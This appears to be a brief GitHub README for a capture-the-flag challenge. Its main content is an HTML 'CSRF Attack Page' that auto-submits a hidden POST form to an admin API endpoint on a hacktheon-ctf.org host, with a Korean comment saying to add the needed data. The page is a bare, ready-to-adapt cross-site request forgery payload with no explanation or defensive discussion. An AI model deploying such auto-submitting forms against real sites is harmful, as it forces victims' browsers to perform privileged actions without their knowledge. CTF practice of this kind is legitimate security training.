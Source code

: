 # hi

<!DOCTYPE html>
<html>
<body>
    <h2>CSRF Attack Page</h2>
    <form action="https://githubreadme.hacktheon-ctf.org/api/admin" method="POST" id="csrf-form">
        <input type="hidden" name="someData" value="value" />
        <!-- 여기에 필요한 데이터를 추가하세요 -->
    </form>
    <script>
        document.getElementById('csrf-form').submit();
    </script>
</body>
</html>
